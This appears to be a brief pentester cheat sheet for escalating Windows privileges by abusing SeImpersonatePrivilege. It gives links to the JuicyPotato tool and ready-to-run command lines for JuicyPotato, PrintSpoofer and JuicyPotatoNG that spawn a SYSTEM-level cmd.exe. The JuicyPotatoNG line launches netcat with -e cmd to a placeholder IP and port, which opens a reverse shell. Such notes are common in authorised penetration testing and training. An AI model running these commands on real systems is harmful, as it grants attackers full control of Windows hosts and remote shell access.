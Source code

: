 # SeImpersonatePrivilege
wget #juicypotato
https://github.com/ohpe/juicy-potato
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

```
.\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t *
.\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c <CLSID>
```

#printspoofer
```
.\PrintSpoofer64.exe -i -c cmd.exe
```

#JuicyPotatoNG 
```
must use full paths, not interactive?
.\JuicyPotatoNG.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\Users\[user]\nc.exe [ip] [port] -e cmd"
```